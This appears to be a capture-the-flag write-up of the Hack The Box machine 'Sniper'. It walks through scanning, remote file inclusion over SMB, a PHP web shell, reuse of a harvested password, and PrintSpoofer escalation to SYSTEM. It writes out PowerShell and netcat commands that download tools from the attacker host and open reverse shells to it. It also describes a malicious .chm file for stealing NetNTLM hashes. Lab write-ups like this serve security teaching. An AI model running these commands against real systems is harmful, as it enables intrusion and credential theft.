





# Sniper

### ----- Challenge -----

- Medium difficulty Windows machine, I decided to put this here because I came up with an unintended solution.

### ----- Enumeration -----

- Port Scan using **RustScan** (the GOAT):
    ``` bash
    varanda@debian:~/CTF/HTB/Labs/Windows/Medium/Sniper/scan$ rustscan -r 1-65535 -a sniper.htb --ulimit 5000 -- -sC -sV -oA scan
    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : http://discord.skerritt.blog         :
    : https://github.com/RustScan/RustScan :
    --------------------------------------
    RustScan: Making sure 'closed' isn't just a state of mind.

    [...]

    PORT      STATE SERVICE       REASON          VERSION
    80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
    | http-methods: 
    |   Supported Methods: OPTIONS TRACE GET HEAD POST
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: Sniper Co.
    135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds? syn-ack ttl 127
    49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: 6h00m22s
    | p2p-conficker: 
    |   Checking for Conficker.C or higher...
    |   Check 1 (port 18459/tcp): CLEAN (Timeout)
    |   Check 2 (port 26389/tcp): CLEAN (Timeout)
    |   Check 3 (port 51336/udp): CLEAN (Timeout)
    |   Check 4 (port 34073/udp): CLEAN (Timeout)
    |_  0/4 checks are positive: Host is CLEAN or ports are blocked
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2025-09-02T18:00:29
    |_  start_date: N/A
    [...]
    ```

- Enumerating pages using **ffuf**:
    ```bash
    varanda@debian:~/CTF/HTB/Labs/Windows/Medium/Sniper/scan$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u 
    http://sniper.htb/user/FUZZ.php

            /'___\  /'___\           /'___\       
        /\ \__/ /\ \__/  __  __  /\ \__/       
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
            \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

        v2.1.0-dev
    [...]

    # Priority-ordered case-sensitive list, where entries were found [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 126ms]
    login                   [Status: 200, Size: 5456, Words: 108, Lines: 108, Duration: 85ms]
    index                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 152ms]
    # This work is licensed under the Creative Commons [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 152ms]
    # license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 127ms]
    registration            [Status: 200, Size: 5922, Words: 263, Lines: 113, Duration: 34ms]
    Index                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 26ms]
    Login                   [Status: 200, Size: 5456, Words: 108, Lines: 108, Duration: 33ms]
    db                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
    logout                  [Status: 302, Size: 3, Words: 2, Lines: 2, Duration: 25ms]
    auth                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 32ms]
    Registration            [Status: 200, Size: 5922, Words: 263, Lines: 113, Duration: 42ms]
    INDEX                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 48ms]
    Logout                  [Status: 302, Size: 3, Words: 2, Lines: 2, Duration: 28ms]
    DB                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 27ms]
    Auth                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 28ms]

    [...]
    ```

- There's a login page, but I don't find any vulnerabilities in it, there's also the functionality of creating a user. I do so, and login into the website.

- A possible **File Inclusion** is what immediately comes to mind:
	

- Since this is a Windows machine, I tried a **Remote File Inclusion** using **SMB** and it worked!
    - http://sniper.htb/blog/?lang=\\10.10.14.25\share\teste.php

    

### ---- Exploitation -----


- I will host and include in the website a **Web Shell** so I can have **RCE**:
	- I tried the classic `<?php system($_GET["fadfaj4321"]); ?>`, but it wasn't working, so I used WhiteWinterWolf's (https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

- While browsing around, I found some interesting things:

- whoami:
    

- DB credentials:
    
- I have SeImpersonatePrivilege, so I immediately think I will be able to use **Juicy Potato** to escalate my privileges
    

- I will start a **reverse shell** (base64 command from https://www.revshells.com/)
    

### ----- Privilege Escalation -----


- There's a user named Chris, I will use the password I discovered in the db.php file (36mEAhz/B8xQ~2VM) to receive a shell as this user
    ``` powershell
    PS C:\Windows> dir \Users
    Mode                LastWriteTime         Length Name                                                                  
    ----                -------------         ------ ----                                                                  
    d-----         4/9/2019   6:47 AM                Administrator                                                         
    d-----        4/11/2019   7:04 AM                Chris                                                                 
    d-r---         4/9/2019   6:47 AM                Public

    PS C:\Windows> $SecPassword = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
    PS C:\Windows> $Cred = New-Object System.Management.Automation.PSCredential('SNIPER\chris', $SecPassword) 
    PS C:\Windows>Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget http://10.10.14.25:8080/nc_windows/nc.exe -o C:\Users\chris\nc.exe } -credential $Cred;
    PS C:\Windows>Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e cmd.exe 10.10.14.25 1234} -credential $Cred;
    ```

- And I receive chris' shell on my Netcat
	``` powershell
	C:\Users\Chris\Desktop>type user.txt
	type user.txt
	cb<REDACTED>42
	```

- There are these files on Chris' Docs:
    ``` 
    C:\Docs>type note.txt

    Hi Chris,
    Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

    Regards,
    Sniper CEO.
    C:\Docs>dir

    10/01/2019  01:04 PM    <DIR>          .
    10/01/2019  01:04 PM    <DIR>          ..
    04/11/2019  09:31 AM               285 note.txt
    04/11/2019  09:17 AM           552,607 php for dummies-trial.pdf
                2 File(s)        552,892 bytes
                2 Dir(s)   2,406,289,408 bytes free

    ```

- I sent the PDF to my SMB server, but I didn't find anything useful in it
    

- The SMB shares that Chris has access to have nothing useful also
	```
	dinis@dinis-debian:~/CTF/HTB/Labs/Windows/Medium/Sniper$ smbmap -u chris -p 36mEAhz/B8xQ~2VM -H sniper.htb
	[+] IP: sniper.htb:445	Name: unknown                                           
		Disk                                                  	Permissions	Comment
		----                                                  	-----------	-------
		ADMIN$                                            	NO ACCESS	Remote Admin
		C$                                                	NO ACCESS	Default share
		IPC$                                              	READ ONLY	Remote IPC
	```

#### Unintended Solution:
- So we are back to the my original Privilege Escalation idea. The **iusr has the SeImpersonatePrivilege**, so I need a folder that Chris can write to and iusr can read (iusr has very limited write permissions), so I can put **Netcat** and **PrintSpoofer** (I tried JuicyPotato but it didn't work) in it for iusr to run. To do so, I create a folder in the root.

- Chris' shell:
    ```powershell
    C:>mkdir pwn
    C:\>curl -o "C:\pwn\nc.exe" "http://10.10.14.25:8080/nc_windows/nc.exe"
    C:\>curl -o "C:\pwn\ps.exe" "http://10.10.14.25:8080/PrintSpoofer64.exe"
    ```
- iusr's shell:
    ``` powershell
    PS C:\pwn> ./ps.exe -c "c:\pwn\nc.exe 10.10.14.25 8443 -e cmd"
    [+] Found privilege: SeImpersonatePrivilege
    [+] Named pipe listening...
    [+] CreateProcessAsUser() OK
    ```
- And BOOM! I receive a shell as NT AUTORITY\SYSTEM
    ``` powershell
    varanda@debian:~/CTF/HTB/Labs/Windows/Medium/Sniper$ nc -lnvp 8443
    Listening on 0.0.0.0 8443
    Connection received on 10.10.10.151 49904
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    whoami
    nt authority\system
    
    C:\Windows\system32>type \Users\Administrator\Desktop\root.txt
    type root.txt
    1<REDACTED>d02
    ```

#### Intended Solution:
- You were supposed to escalate your privileges by crafting a malicious **HTML Help Documentation File** (.chm), that you put in the Docs folder and the administrator opens it, triggering a payload.

- You could do that using the Windows tool **Nishang** to create a malicious file (https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e) or by creating your own file that triggers a request to your Responder server, stealing the administrator's **NetNTLM-v2 hash**, which you would then crack:

    ``` html
    <html>
        <body>
            
        </body>
    </html>
    ```

writeup by varanda - 02/09/2025